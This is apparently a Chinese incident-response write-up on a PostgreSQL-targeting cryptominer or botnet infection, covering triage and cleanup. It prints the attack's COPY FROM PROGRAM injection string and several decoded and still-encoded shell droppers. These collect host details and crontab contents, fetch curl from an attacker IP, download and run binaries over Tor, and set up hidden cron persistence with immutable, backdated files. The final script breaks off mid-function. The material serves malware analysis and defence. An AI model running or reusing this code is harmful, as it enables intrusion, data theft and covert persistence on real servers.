

## 背景
第一次出现是在2020年9月14日晚上接近8点，`10.100.244.24`,`10.100.244.22`两台服务器出现cpu异常，tracepath一直在内网扫描且为tcp连接，这两台服务器除了tracepath进程在大规模扫描以外，还有另外的进程占cpu高的进程。
tracepath 指令可以追踪数据到达目标主机的路由信息，它使用UDP协议

```shell
tracepath [ -n]  [ -l pktlen]  destination [ port]
```
| 参数 | 说明 |
| --- | --- |
| -n | 不查看主机名字 |
| -l | 设置初始化数据包长度，默认65535 |

tracepath 扫描 tcp 扫描内网的5432端口（5432默认是PostgreSQL）
```shell
# root 权限
netstat -antulp 
```


## 应急过程
查看文件的状态
```shell
# 查看创建，更新
stat /usr/bin/tracepath
md5sum /usr/bin/tracepath
```
查找定时任务，本地脚本
```shell
# 列出某个用户cron服务的详细内容
crontab -l
# 默认编写的 crontab文件会保存在/var/spool/cron/$USER

cat /etc/crontab
cat /etc/cron.*/XXX
# 异步定时服务
cat /etc/anacrontab

# 具体文件
/var/spool/cron/*
/etc/crontab
/etc/cron.d/*
/etc/cron.daily/*
/etc/cron.hourly/*
/etc/cron.monthly/*
/etc/cron.weekly/
/etc/anacrontab
/var/spool/anacron/*
```


```shell
user=postgres hostaddr=%s password=%s^@DROP TABLE IF EXISTS abroxu;CREATE TABLE abroxu(cmd_output text);COPY abroxu FROM P
ROGRAM 'echo WFJBTkRPTQpleGVjICY+L2Rldi9udWxsCmV4cG9ydCBQQVRIPSRQQVRIOiRIT01FOi9iaW46L3NiaW46L3Vzci9iaW46L3Vzci9zYmluOi91c3IvbG9jYWwvYmluOi91c3IvbG9jYW
wvc2JpbgoKZnVuY3Rpb24gX19jdXJsKCkgewogIHJlYWQgcHJvdG8gc2VydmVyIHBhdGggPDw8JChlY2hvICR7MS8vLy8gfSkKICBET0M9LyR7cGF0aC8vIC8vfQogIEhPU1Q9JHtzZXJ2ZXIvLzoqf
QogIFBPUlQ9JHtzZXJ2ZXIvLyo6fQogIFtbIHgiJHtIT1NUfSIgPT0geCIke1BPUlR9IiBdXSAmJiBQT1JUPTgwCgogIGV4ZWMgMzw+L2Rldi90Y3AvJHtIT1NUfS8kUE9SVAogIGVjaG8gLWVuICJH
RVQgJHtET0N9IEhUVFAvMS4wXHJcbkhvc3Q6ICR7SE9TVH1cclxuXHJcbiIgPiYzCiAgKHdoaWxlIHJlYWQgbGluZTsgZG8KICAgW1sgIiRsaW5lIiA9PSAkJ1xyJyBdXSAmJiBicmVhawogIGRvbmU
gJiYgY2F0KSA8JjMKICBleGVjIDM+Ji0KfQoKY3VybCAtViB8fCBhcHQtZ2V0IHVwZGF0ZSAmJiBhcHQtZ2V0IC15IGluc3RhbGwgY3VybApjdXJsIC1WIHx8IHl1bSAteSBpbnN0YWxsIGN1cmwKY3
VybCAtViB8fCB3Z2V0IC1xIGh0dHBzOi8vZ2l0aHViLmNvbS9tb3BhcmlzdGhlYmVzdC9zdGF0aWMtY3VybC9yZWxlYXNlcy9kb3dubG9hZC92Ny43MS4xL2N1cmwtYW1kNjQgLU8gL3Vzci9sb2Nhb
C9iaW4vY3VybDtjaG1vZCAreCAvdXNyL2xvY2FsL2Jpbi9jdXJsCmN1cmwgLVYgfHwgd2dldCAtcSBodHRwczovL2dpdGh1Yi5jb20vbW9wYXJpc3RoZWJlc3Qvc3RhdGljLWN1cmwvcmVsZWFzZXMv
ZG93bmxvYWQvdjcuNzEuMS9jdXJsLWFtZDY0IC1PICRIT01FL2N1cmw7Y2htb2QgK3ggJEhPTUUvY3VybApjdXJsIC1WIHx8IF9fY3VybCBodHRwOi8vMTIwLjI3LjI2LjE4OTo4MS9jdXJsID4gL3V
zci9sb2NhbC9iaW4vY3VybDtjaG1vZCAreCAvdXNyL2xvY2FsL2Jpbi9jdXJsCmN1cmwgLVYgfHwgX19jdXJsIGh0dHA6Ly8xMjAuMjcuMjYuMTg5OjgxL2N1cmwgPiAkSE9NRS9jdXJsO2NobW9kIC
t4ICRIT01FL2N1cmwKCmQ9JChncmVwIHg6JChpZCAtdSk6IC9ldGMvcGFzc3dkfGN1dCAtZDogLWY2KQpjPSQoZWNobyAiY3VybCAtNGZzU0xrQS0gLW0yMDAiKQp0PSQoZWNobyAibnNzbmtjdDZ1Z
Hl5eDZ6bHY0bDZqaHFyNWpkZjY0M3NoeWVyazI0NmZzMjdrc3JkZWhsMnozcWQiKQoKc29ja3ooKSB7Cm49KGRvaC5kZWZhdWx0cm91dGVzLmRlIGRucy5ob3N0dXgubmV0IGRucy5kbnMtb3Zlci1o
dHRwcy5jb20gdW5jZW5zb3JlZC5sdXgxLmRucy5uaXhuZXQueHl6IGRucy5ydWJ5ZmlzaC5jbiBkbnMudHduaWMudHcgZG9oLmNlbnRyYWxldS5waS1kbnMuY29tIGRvaC5kbnMuc2IgZG9oLWZpLmJ
sYWhkbnMuY29tIGZpLmRvaC5kbnMuc25vcHl0YS5vcmcgZG5zLmZsYXR1c2xpZmlyLmlzIGRvaC5saSBkbnMuZGlnaXRhbGUtZ2VzZWxsc2NoYWZ0LmNoKQpwPSQoZWNobyAiZG5zLXF1ZXJ5P25hbW
U9cmVsYXkudG9yMnNvY2tzLmluIikKcz0kKCRjIGh0dHBzOi8vJHtuWyQoKFJBTkRPTSUxMykpXX0vJHAgfCBncmVwIC1vRSAiXGIoWzAtOV17MSwzfVwuKXszfVswLTldezEsM31cYiIgfHRyICcgJ
yAnXG4nfHNvcnQgLXVSfGhlYWQgLTEpCn0KCmZleGUoKSB7CmZvciBpIGluIC4gJEhPTUUgL3Vzci9iaW4gJGQgL3RtcCAvdmFyL3RtcCA7ZG8gZWNobyBleGl0ID4gJGkvaSAmJiBjaG1vZCAreCAk
aS9pICYmIGNkICRpICYmIC4vaSAmJiBybSAtZiBpICYmIGJyZWFrO2RvbmUKfQoKdSgpIHsKc29ja3oKZmV4ZQpmPS9wZy4kKHVuYW1lIC1tKQp4PS4vJChkYXRlfG1kNXN1bXxjdXQgLWYxIC1kLSk
Kcj0kKGN1cmwgLTRmc1NMayBjaGVja2lwLmFtYXpvbmF3cy5jb218fGN1cmwgLTRmc1NMayBpcC5zYilfJCh3aG9hbWkpXyQodW5hbWUgLW0pXyQodW5hbWUgLW4pXyQoaXAgYXxncmVwICdpbmV0IC
d8YXdrIHsncHJpbnQgJDInfXxtZDVzdW18YXdrIHsncHJpbnQgJDEnfSlfJChjcm9udGFiIC1sfGJhc2U2NCAtdzApCiRjIC14IHNvY2tzNWg6Ly8kczo5MDUwICR0Lm9uaW9uJGYgLW8keCAtZSRyI
Hx8ICRjICQxJGYgLW8keCAtZSRyCmNobW9kICt4ICR4OyR4O3JtIC1mICR4Cn0KCmZvciBoIGluIHRvcjJ3ZWIuaW4gdG9yMndlYi5pdCB0b3Iyd2ViLmlvIHRvcjJ3ZWIuc3Ugb25pb24uY29tLmRl
CmRvCmlmICEgbHMgL3Byb2MvJChoZWFkIC0xIC90bXAvLlgxMS11bml4LzAxKS9zdGF0dXM7IHRoZW4KdSAkdC4kaAplbHNlCmJyZWFrCmZpCmRvbmUK|base64 -d|bash';SELECT * FROM abro
xu;DROP TABLE IF EXISTS abroxu;

# 解码
user=postgres hostaddr=%s password=%s^@DROP TABLE IF EXISTS abroxu;CREATE TABLE abroxu(cmd_output text);COPY abroxu FROM P
ROGRAM echo 
'XRANDOM
exec &>/dev/null
export PATH=$PATH:$HOME:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin

xec &>/dev/null
export PATH=$PATH:$HOME:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin

function __curl() {
  # ${1//// }将/ 替换为空格
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  # 当
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  #建立一个双向连接的socket连接，并下载curl
  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}

curl -V || apt-get update && apt-get -y install curl
curl -V || yum -y install curl
curl -V || wget -q https://github.com/moparisthebest/static-curl/releases/download/v7.71.1/curl-amd64 -O /usr/local/bin/curl;chmod +x /usr/local/bin/curl
curl -V || wget -q https://github.com/moparisthebest/static-curl/releases/download/v7.71.1/curl-amd64 -O $HOME/curl;chmod +x $HOME/curl
# 下载curl 重定向到/usr/local/bin/curl 目录下 赋予执行权限
curl -V || __curl http://120.27.26.189:81/curl > /usr/local/bin/curl;chmod +x /usr/local/bin/curl 
curl -V || __curl http://120.27.26.189:81/curl > $HOME/curl;chmod +x $HOME/curl

# id -u (uid) grep x:$uid: /etc/passwd => 取出当前用户
# cut -d: -f6 => -d: 以:为分界符，-f --fields 选中的列表，-f6 指 第6列，为用户的家目录
# $d = 当前用户的家目录 /home/aaron
d=$(grep x:$(id -u): /etc/passwd|cut -d: -f6) # 获取家目录
c=$(echo "curl -4fsSLkA- -m200") # curl -4fsSLkA- -m200
t=$(echo "nssnkct6udyyx6zlv4l6jhqr5jdf643shyerk246fs27ksrdehl2z3qd")  # 输出字符串，用于拼接后面的Tor网络地址

#dns 解析函数
sockz() {
n=(doh.defaultroutes.de dns.hostux.net dns.dns-over-https.com uncensored.lux1.dns.nixnet.xyz dns.rubyfish.cn dns.twnic.tw doh.centraleu.pi-dns.com doh.dns.sb doh-fi.blahdns.com fi.doh.dns.snopyta.org dns.flatuslifir.is doh.li dns.digitale-gesellschaft.ch)
p=$(echo "dns-query?name=relay.tor2socks.in")
s=$($c https://${n[$((RANDOM%13))]}/$p | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" |tr ' ' '\n'|sort -uR|head -1)
}

# 执行exit
fexe() {
for i in . $HOME /usr/bin $d /tmp /var/tmp ;do echo exit > $i/i && chmod +x $i/i && cd $i && ./i && rm -f i && break;done
}

u() {
sockz
fexe
f=/pg.$(uname -m)
x=./$(date|md5sum|cut -f1 -d-)
r=$(curl -4fsSLk checkip.amazonaws.com||curl -4fsSLk ip.sb)_$(whoami)_$(uname -m)_$(uname -n)_$(ip a|grep 'inet '|awk {'print $2'}|md5sum|awk {'print $1'})_$(crontab -l|base64 -w0)
$c -x socks5h://$s:9050 $t.onion$f -o$x -e$r || $c $1$f -o$x -e$r
chmod +x $x;$x;rm -f $x
}

for h in tor2web.in tor2web.it tor2web.io tor2web.su onion.com.de
do
if ! ls /proc/$(head -1 /tmp/.X11-unix/01)/status; then
u $t.$h
else
break
fi
done
';
SELECT * FROM abroxu;DROP TABLE IF EXISTS abroxu
```
```shell
# Parameter Expansion
${parameter/pattern/string}

${parameter//pattern/string}

${parameter/pattern}

${parameter//pattern}
#（1）parameter之后如果是/，则只替换匹配到的第一个子串；parameter之后如果是//，则替换所有匹配到的子串。
#（2）当string为空时，则相当于将匹配的子串删除。
#（3）特殊符号#和%在这种情况下分别锚定（Anchoring ）字符串的开始和结尾。
#（4）如果bash的nocasematch选项参数是打开的（shopt -s nocasematch），则匹配的过程大小写是不敏感的。
```
psql中 copy命令
```sql
-- 导入,从 'command'中导入到table中
COPY table_name [ ( column_name [, ...] ) ]
    FROM { 'filename' | PROGRAM 'command' | STDIN }
    [ [ WITH ] ( option [, ...] ) ]
```


## 应急流程

1. 排查定时任务
2. 制作该服务器快照，判断是否与tracepath命令相关
3. 删除计划任务中调用的各种脚本文件，并及时卸载curl命令
4. 针对外连IP，对ip出口进行限制，让其无法访问
5. 清除守护进程
## 第二次应急
第二次出现是在2020年9月15日，中午12点，10.100.249.188，cpu异常，登录服务器，查看在/opt目录下存在同样的systemd-service.sh文件，在/etc/cron.d同样存在以root用户启动的定时任务，按照昨日的应急流程走了一遍，本以为没问题了，但是过了一会病毒又上线，/opt目录下存在了新的脚本文件，/etc/cron.d目录下也存在新的定时任务，且脚本的系统时间均被修改
使用gdb attach 找到已知的pid，dump出当前进程的内存，进而进行分析


```shell
QX5wsK0nNc3lrAwFqXXI7CCihAZomEVoittxI4nkPcH8PWeV8H/jKxz9R8tJnkKK
# 屏蔽指定进程终端上的标准输出信息
exec &>/dev/null
export PATH=$PATH:$HOME:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin


# id -u (uid) grep x:$uid: /etc/passwd => 取出当前用户
# cut -d: -f6 => -d: 以:为分界符，-f --fields 选中的列表，-f6 指 第6列，为用户的家目录
# $d = 当前用户的家目录 /home/aaron 
d=$(grep x:$(id -u): /etc/passwd|cut -d: -f6)

x() {
# 当家目录不存在.systemd-service.sh, 执行 || 后的文件重定向命令 写入家目录下的.systemd-service.sh
if ! ls $d/.systemd-service.sh; then
[ -s $d/.systemd-service.sh ] || echo -e "#\x21/bin/bash\nexec &>/dev/null\necho QX5wsK0nNc3lrAwFqXXI7CCihAZomEVoittxI4nkPcH8PWeV8H/jKxz9R8tJnkKK\necho UVg1d3NLMG5OYzNsckF3RnFYWEk3Q0NpaEFab21FVm9pdHR4STRua1BjSDhQV2VWOEgvakt4ejlSOHRKbmtLSwpleGVjICY+L2Rldi9udWxsCmV4cG9ydCBQQVRIPSRQQVRIOiRIT01FOi9iaW46L3NiaW46L3Vzci9iaW46L3Vzci9zYmluOi91c3IvbG9jYWwvYmluOi91c3IvbG9jYWwvc2JpbgoKZD0kKGdyZXAgeDokKGlkIC11KTogL2V0Yy9wYXNzd2R8Y3V0IC1kOiAtZjYpCmM9JChlY2hvICJjdXJsIC00ZnNTTGtBLSAtbTIwMCIpCnQ9JChlY2hvICI0azZqdGE0enJ3em03dTU0YW0zdm5qcG5sdmxidWp5dnJ0cHJ5dGY0c2Ntcnc3dTN1ZG1ncWFxZCIpCgpzb2NreigpIHsKbj0oZG9oLmRlZmF1bHRyb3V0ZXMuZGUgZG5zLmhvc3R1eC5uZXQgZG5zLmRucy1vdmVyLWh0dHBzLmNvbSB1bmNlbnNvcmVkLmx1eDEuZG5zLm5peG5ldC54eXogZG5zLnJ1YnlmaXNoLmNuIGRucy50d25pYy50dyBkb2guY2VudHJhbGV1LnBpLWRucy5jb20gZG9oLmRucy5zYiBkb2gtZmkuYmxhaGRucy5jb20gZmkuZG9oLmRucy5zbm9weXRhLm9yZyBkbnMuZmxhdHVzbGlmaXIuaXMgZG9oLmxpIGRucy5kaWdpdGFsZS1nZXNlbGxzY2hhZnQuY2gpCnA9JChlY2hvICJkbnMtcXVlcnk/bmFtZT1yZWxheS50b3Iyc29ja3MuaW4iKQpzPSQoJGMgaHR0cHM6Ly8ke25bJCgoUkFORE9NJTEzKSldfS8kcCB8IGdyZXAgLW9FICJcYihbMC05XXsxLDN9XC4pezN9WzAtOV17MSwzfVxiIiB8dHIgJyAnICdcbid8c29ydCAtdVJ8aGVhZCAtMSkKfQoKZmV4ZSgpIHsKZm9yIGkgaW4gL2Rldi9zaG0gL3Vzci9iaW4gJGQgL3RtcCAvdmFyL3RtcCA7ZG8gZWNobyBleGl0ID4gJGkvaSAmJiBjaG1vZCAreCAkaS9pICYmIGNkICRpICYmIC4vaSAmJiBybSAtZiBpICYmIGJyZWFrO2RvbmUKfQoKdSgpIHsKc29ja3oKZmV4ZQpmPS9pbnQuJCh1bmFtZSAtbSkKeD0uLyQoZGF0ZXxtZDVzdW18Y3V0IC1mMSAtZC0pCnI9JChjdXJsIC00ZnNTTGsgY2hlY2tpcC5hbWF6b25hd3MuY29tfHxjdXJsIC00ZnNTTGsgaXAuc2IpXyQod2hvYW1pKV8kKHVuYW1lIC1tKV8kKHVuYW1lIC1uKV8kKGlwIGF8Z3JlcCAnaW5ldCAnfGF3ayB7J3ByaW50ICQyJ318bWQ1c3VtfGF3ayB7J3ByaW50ICQxJ30pXyQoY3JvbnRhYiAtbHxiYXNlNjQgLXcwKQokYyAteCBzb2NrczVoOi8vJHM6OTA1MCAkdC5vbmlvbiRmIC1vJHggLWUkciB8fCAkYyAkMSRmIC1vJHggLWUkcgpjaG1vZCAreCAkeDskeDtybSAtZiAkeAp9Cgpmb3IgaCBpbiB0b3Iyd2ViLmluIHRvcjJ3ZWIuaW8gdG9yMndlYi5zdSBvbmlvbi5jb20uZGUgdG9yMndlYi50byBvbmlvbi5zaApkbwppZiAhIGxzIC9wcm9jLyQoaGVhZCAtMSAvdG1wLy5YMTEtdW5peC8wMSkvc3RhdHVzOyB0aGVuCnUgJHQuJGgKZWxzZQpicmVhawpmaQpkb25lCg==|base64 -d|bash" > $d/.systemd-service.sh


# base64 解码函数
#QX5wsK0nNc3lrAwFqXXI7CCihAZomEVoittxI4nkPcH8PWeV8H/jKxz9R8tJnkKK

#exec &>/dev/null
#export PATH=$PATH:$HOME:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin

#d=$(grep x:$(id -u): /etc/passwd|cut -d: -f6) # 获取家目录

#c=$(echo "curl -4fsSLkA- -m200") # curl -4fsSLkA- -m200
#t=$(echo "4k6jta4zrwzm7u54am3vnjpnlvlbujyvrtprytf4scmrw7u3udmgqaqd") #  输出字符串，用于拼接后面的Tor网络地址

#dns 解析函数
#sockz() {

#n=(
#	doh.defaultroutes.de 
#	dns.hostux.net 
#	dns.dns-over-https.com 
#	uncensored.lux1.dns.nixnet.xyz 
#	dns.rubyfish.cn 
#	dns.twnic.tw 
#	doh.centraleu.pi-dns.com 
#	doh.dns.sb 
#	doh-fi.blahdns.com 
#	fi.doh.dns.snopyta.org 
#	dns.flatuslifir.is 
#	doh.li 
#	dns.digitale-gesellschaft.ch
#)

#p=$(echo "dns-query?name=relay.tor2socks.in")
# $((RANDOM%13))) 产生 0-12的随机数     ${n[$((RANDOM%13))]} =>  n[random] 用于解析
# 获取relay.tor2socks.in的IP地址
#s=$($c https://${n[$((RANDOM%13))]}/$p | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" |tr ' ' '\n'|sort -uR|head -1)
#}

# 执行exit
#fexe() {
#for i in /dev/shm /usr/bin $d /tmp /var/tmp 
#	do 
#	echo exit > $i/i 
#	chmod +x $i/i
#	cd $i 
#	 ./i  
#	rm -f i 
#	break
#	done
#}

#u() {
#sockz
#fexe
#f=/int.$(uname -m) => /int.x86_64

#x=./$(date|md5sum|cut -f1 -d-) => 获取当前时间时间戳MD5值
# $r => 输出本机相关信息及计划任务
#r=$(curl -4fsSLk checkip.amazonaws.com||curl -4fsSLk ip.sb)_$(whoami)_$(uname -m)_$(uname -n)_$(ip a|grep 'inet '|awk {'print $2'}|md5sum|awk {'print $1'})_$(crontab -l|base64 -w0)


#$c -x socks5h://$s:9050 $t.onion$f -o$x -e$r || $c $1$f -o$x -e$r

# curl -4fsSLkA- -m200 -x socks5h://xxx_ip:9050 $t.onion/int.x86_64/ -o  ./md5(dateTime) -e 本机相关信息 || curl -4fsSLkA- -m200 $t.$h/int.x86_64 -o ./md5(dateTime) -e 本机相关信息

# 给下载下来的脚本添加执行权限，执行该脚本，再删除该脚本
#chmod +x $x;$x;rm -f $x
#}

#for h in tor2web.in tor2web.io tor2web.su onion.com.de tor2web.to onion.sh
#do
# 如果tmp/.X11-unix/01这个pid 在/proc/$pid/status不正常
#if ! ls /proc/$(head -1 /tmp/.X11-unix/01)/status; then
# 执行u函数
#u $t.$h
#else
#break
#fi
#done
#

# 修改当前脚本的时间为/bin/grep
touch -r /bin/grep $d/.systemd-service.sh
# 给家目录下的.systemd-service.sh 添加x权限，并且添加不得任意更动文件或目录的i权限
chmod +x $d/.systemd-service.sh && chattr +i $d/.systemd-service.sh
fi


#如果opt不存在该脚本，写入/opt/systemd-service.sh
if ! ls /opt/systemd-service.sh; then
[ -s /opt/systemd-service.sh ] || echo -e "#\x21/bin/bash\nexec &>/dev/null\necho QX5wsK0nNc3lrAwFqXXI7CCihAZomEVoittxI4nkPcH8PWeV8H/jKxz9R8tJnkKK\necho UVg1d3NLMG5OYzNsckF3RnFYWEk3Q0NpaEFab21FVm9pdHR4STRua1BjSDhQV2VWOEgvakt4ejlSOHRKbmtLSwpleGVjICY+L2Rldi9udWxsCmV4cG9ydCBQQVRIPSRQQVRIOiRIT01FOi9iaW46L3NiaW46L3Vzci9iaW46L3Vzci9zYmluOi91c3IvbG9jYWwvYmluOi91c3IvbG9jYWwvc2JpbgoKZD0kKGdyZXAgeDokKGlkIC11KTogL2V0Yy9wYXNzd2R8Y3V0IC1kOiAtZjYpCmM9JChlY2hvICJjdXJsIC00ZnNTTGtBLSAtbTIwMCIpCnQ9JChlY2hvICI0azZqdGE0enJ3em03dTU0YW0zdm5qcG5sdmxidWp5dnJ0cHJ5dGY0c2Ntcnc3dTN1ZG1ncWFxZCIpCgpzb2NreigpIHsKbj0oZG9oLmRlZmF1bHRyb3V0ZXMuZGUgZG5zLmhvc3R1eC5uZXQgZG5zLmRucy1vdmVyLWh0dHBzLmNvbSB1bmNlbnNvcmVkLmx1eDEuZG5zLm5peG5ldC54eXogZG5zLnJ1YnlmaXNoLmNuIGRucy50d25pYy50dyBkb2guY2VudHJhbGV1LnBpLWRucy5jb20gZG9oLmRucy5zYiBkb2gtZmkuYmxhaGRucy5jb20gZmkuZG9oLmRucy5zbm9weXRhLm9yZyBkbnMuZmxhdHVzbGlmaXIuaXMgZG9oLmxpIGRucy5kaWdpdGFsZS1nZXNlbGxzY2hhZnQuY2gpCnA9JChlY2hvICJkbnMtcXVlcnk/bmFtZT1yZWxheS50b3Iyc29ja3MuaW4iKQpzPSQoJGMgaHR0cHM6Ly8ke25bJCgoUkFORE9NJTEzKSldfS8kcCB8IGdyZXAgLW9FICJcYihbMC05XXsxLDN9XC4pezN9WzAtOV17MSwzfVxiIiB8dHIgJyAnICdcbid8c29ydCAtdVJ8aGVhZCAtMSkKfQoKZmV4ZSgpIHsKZm9yIGkgaW4gL2Rldi9zaG0gL3Vzci9iaW4gJGQgL3RtcCAvdmFyL3RtcCA7ZG8gZWNobyBleGl0ID4gJGkvaSAmJiBjaG1vZCAreCAkaS9pICYmIGNkICRpICYmIC4vaSAmJiBybSAtZiBpICYmIGJyZWFrO2RvbmUKfQoKdSgpIHsKc29ja3oKZmV4ZQpmPS9pbnQuJCh1bmFtZSAtbSkKeD0uLyQoZGF0ZXxtZDVzdW18Y3V0IC1mMSAtZC0pCnI9JChjdXJsIC00ZnNTTGsgY2hlY2tpcC5hbWF6b25hd3MuY29tfHxjdXJsIC00ZnNTTGsgaXAuc2IpXyQod2hvYW1pKV8kKHVuYW1lIC1tKV8kKHVuYW1lIC1uKV8kKGlwIGF8Z3JlcCAnaW5ldCAnfGF3ayB7J3ByaW50ICQyJ318bWQ1c3VtfGF3ayB7J3ByaW50ICQxJ30pXyQoY3JvbnRhYiAtbHxiYXNlNjQgLXcwKQokYyAteCBzb2NrczVoOi8vJHM6OTA1MCAkdC5vbmlvbiRmIC1vJHggLWUkciB8fCAkYyAkMSRmIC1vJHggLWUkcgpjaG1vZCAreCAkeDskeDtybSAtZiAkeAp9Cgpmb3IgaCBpbiB0b3Iyd2ViLmluIHRvcjJ3ZWIuaW8gdG9yMndlYi5zdSBvbmlvbi5jb20uZGUgdG9yMndlYi50byBvbmlvbi5zaApkbwppZiAhIGxzIC9wcm9jLyQoaGVhZCAtMSAvdG1wLy5YMTEtdW5peC8wMSkvc3RhdHVzOyB0aGVuCnUgJHQuJGgKZWxzZQpicmVhawpmaQpkb25lCg==|base64 -d|bash" > /opt/systemd-service.sh

# base64 解码函数
# QX5wsK0nNc3lrAwFqXXI7CCihAZomEVoittxI4nkPcH8PWeV8H/jKxz9R8tJnkKK
# exec &>/dev/null
# export PATH=$PATH:$HOME:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin

#d=$(grep x:$(id -u): /etc/passwd|cut -d: -f6)
#c=$(echo "curl -4fsSLkA- -m200")
#t=$(echo "4k6jta4zrwzm7u54am3vnjpnlvlbujyvrtprytf4scmrw7u3udmgqaqd")

#sockz() {
#n=(doh.defaultroutes.de dns.hostux.net dns.dns-over-https.com uncensored.lux1.dns.nixnet.xyz dns.rubyfish.cn dns.twnic.tw doh.centraleu.pi-dns.com doh.dns.sb doh-fi.blahdns.com fi.doh.dns.snopyta.org dns.flatuslifir.is doh.li dns.digitale-gesellschaft.ch)
#p=$(echo "dns-query?name=relay.tor2socks.in")
#s=$($c https://${n[$((RANDOM%13))]}/$p | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" |tr ' ' '\n'|sort -uR|head -1)
#}

#fexe() {
#for i in /dev/shm /usr/bin $d /tmp /var/tmp ;do echo exit > $i/i && chmod +x $i/i && cd $i && ./i && rm -f i && break;done
#}

#u() {
#sockz
#fexe
#f=/int.$(uname -m)
#x=./$(date|md5sum|cut -f1 -d-)
#r=$(curl -4fsSLk checkip.amazonaws.com||curl -4fsSLk ip.sb)_$(whoami)_$(uname -m)_$(uname -n)_$(ip a|grep 'inet '|awk {'print $2'}|md5sum|awk {'print $1'})_$(crontab -l|base64 -w0)
#$c -x socks5h://$s:9050 $t.onion$f -o$x -e$r || $c $1$f -o$x -e$r
#chmod +x $x;$x;rm -f $x
#}

#for h in tor2web.in tor2web.io tor2web.su onion.com.de tor2web.to onion.sh
#do
#if ! ls /proc/$(head -1 /tmp/.X11-unix/01)/status; then
#u $t.$h
#else
#break
#fi
#done

# 创建文件，并使用/bin/grep下的时间混淆
touch -r /bin/grep /opt/systemd-service.sh
# 添加x权限，并且添加不得任意更动文件或目录的i权限
chmod +x /opt/systemd-service.sh && chattr +i /opt/systemd-service.sh
fi

# 如果/etc/cron.d/0systemd-service定时任务不存在，则写入定时任务
if ! ls /etc/cron.d/0systemd-service; then
[ -s /etc/cron.d/0systemd-service ] || echo "$(echo $((RANDOM%59))) * * * * root /opt/systemd-service.sh > /dev/null 2>&1 &" > /etc/cron.d/0systemd-service
touch -r /bin/grep /etc/cron.d/0systemd-service
fi

# 如果用户的定时任务不存在，则写入crontab
if ! crontab -l | grep ^[0-9] | grep systemd-service.sh; then
(echo "$(echo $((RANDOM%59))) * * * * $d/.systemd-service.sh > /dev/null 2>&1 &";crontab -l|grep -v systemd-service.sh)|crontab -
fi
}
x
```
```shell
bash echo QX5wsK0nNc3lrAwFqXXI7CCihAZomEVoittxI4nkPcH8PWeV8H/jKxz9R8tJnkKK
# 屏蔽指定进程终端上的标准输出信息
exec &>/dev/null
# 指定脚本执行的临时环境变量
export PATH=$PATH:$HOME:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin

# id -u (uid) grep x:$uid: /etc/passwd => 取出当前用户
# cut -d: -f6 => -d: 以:为分界符，-f --fields 选中的列表，-f6 指 第6列，为用户的家目录
# $d = 当前用户的家目录 /home/aaron 
d=$(grep x:$(id -u): /etc/passwd|cut -d: -f6)
# $c 是curl命令的字符串，用于拼接字符串
c=$(echo "curl -4fsSLkA- -m200")
# $t 是字符串用于url拼接
t=$(echo "4k6jta4zrwzm7u54am3vnjpnlvlbujyvrtprytf4scmrw7u3udmgqaqd")

# sockz是dns解析函数
sockz() {
n=(doh.defaultroutes.de dns.hostux.net dns.dns-over-https.com uncensored.lux1.dns.nixnet.xyz dns.rubyfish.cn dns.twnic.tw doh.centraleu.pi-dns.com doh.dns.sb doh-fi.blahdns.com fi.doh.dns.snopyta.org dns.flatuslifir.is doh.li dns.digitale-gesellschaft.ch)
p=$(echo "dns-query?name=relay.tor2socks.in")
s=$($c https://${n[$((RANDOM%13))]}/$p | grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" |tr ' ' '\n'|sort -uR|head -1)
}

# 向目标目录写入exit，并添加x权限，并执行，最后删除
fexe() {
for i in $d /tmp /var/tmp /dev/shm /usr/bin ;do echo exit > $i/i && chmod +x $i/i && cd $i && ./i && rm -f i && break;done
}

isys() {
